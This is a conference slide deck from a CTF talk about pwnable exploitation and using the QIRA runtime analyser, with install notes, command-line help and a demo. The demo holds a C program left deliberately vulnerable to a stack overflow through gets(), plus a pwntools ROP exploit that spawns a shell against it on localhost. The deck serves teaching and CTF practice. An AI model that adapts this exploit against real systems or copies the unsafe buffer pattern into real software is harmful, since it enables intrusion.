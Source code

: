 # Pwnable Time Machine: QIRA

2018/11/25 UCCU <!-- .element: align="left" -->

DuckLL <!-- .element: align="right" -->

![](./qrcode.png)

---

# About Me

- Name: 廖子慶
- ID: DuckLL
- Blog: http://www.duckll.tw
- CTF: Pwnable, Reversing

<div style="float:right;width:50%;">

![](../hitcon/LOGO.jpg) <!-- .element: width="50%" -->

</div>

--

# Outline

1. PWN
1. QIRA
1. Demo

---

# Pwn

- Stack Overflow
- Format String
- Heap Exploit
- Information Leak
- Shellcode
- ROP

--

![](./wtf.jpg)

--

![](./wtf.png)

--

# Tool

![](./vs.jpg)

---

# QIRA

QEMU Interactive Runtime Analyser

http://qira.me/

--

# Author

![](https://avatars3.githubusercontent.com/u/72895?s=460&v=4)

## geohot

--

# Install

![](./pb.png) <!-- .element: width="50%" -->

- [DuckLL/qira](https://github.com/DuckLL/qira)
- [ctf-box](https://hub.docker.com/r/duckll/ctf-box/)

--

# Usage

```
usage: qira.py [-h] [-s] [-t] [--gate-trace ADDRESS] [--flush-cache] [--pin]
               [--host HOST] [--web-port PORT] [--socat-port PORT] [-S]
               [--engine ENGINE]
               binary [args [args ...]]

Analyze binary. Like "qira /bin/ls /"

positional arguments:
  binary                path to the binary
  args                  arguments to the binary

optional arguments:
  -h, --help            show this help message and exit
  -s, --server          bind on port 4000. like socat
  -t, --tracelibraries  trace into all libraries
  --gate-trace ADDRESS  don't start tracing until this address is hit
  --flush-cache         flush all QIRA caches
  --pin                 use pin as the backend, requires ./pin_build.sh
  --host HOST           listen address for web interface and socat. 0.0.0.0 by
                        default
  --web-port PORT       listen port for web interface. 3002 by default
  --socat-port PORT     listen port for socat. 4000 by default
  -S, --static          enable static2
  --engine ENGINE       static engine to use with static2 (builtin or r2)
```

- -s 伺服器模式
- 瀏覽器：localhost:3002
- 間聽：localhost:4000

--

# Control Key

- 上下 前後一個指令
- 左右 切換不同次執行狀態
- j 後一個同樣執行位置
- k 前一個同樣執行位置
- n 函數命名
- : 註解

---

# DEMO

```c
#include <stdio.h>
#include <stdlib.h>
void vul(){
    char buf[4];
    gets(buf);
    return;
}
int main(int argc, char *argv[])
{
    system("cal");
    vul();
    return 0;
}
```

```sh
gcc --no-stack-protector demo.c
```

[a.out](https://drive.google.com/open?id=1pNAuYee6dCg8PI5z4ZlFkGHU22bleklx)

--

# Exploit

```python
from pwn import *
context.arch='amd64'

elf=ELF('./a.out')
system=elf.plt['system']
gets=elf.plt['gets']
buf=elf.bss()+0xf00
pop_rdi=0x400613

io=remote('localhost',4000)

payload="A"*24+flat(pop_rdi,buf,gets,pop_rdi,buf,system)

io.sendlineafter("30",payload)
io.sendline("/bin/sh")
io.interactive()
```

--

# 超猛跨平台

- i386
- amd64
- arm

--

# 小心地雷

- 沒有 DEP
- 沒有 ASLR
- Leak 會遇到 00 斷掉

---

# Q & A

--

# END

Thank you for listening
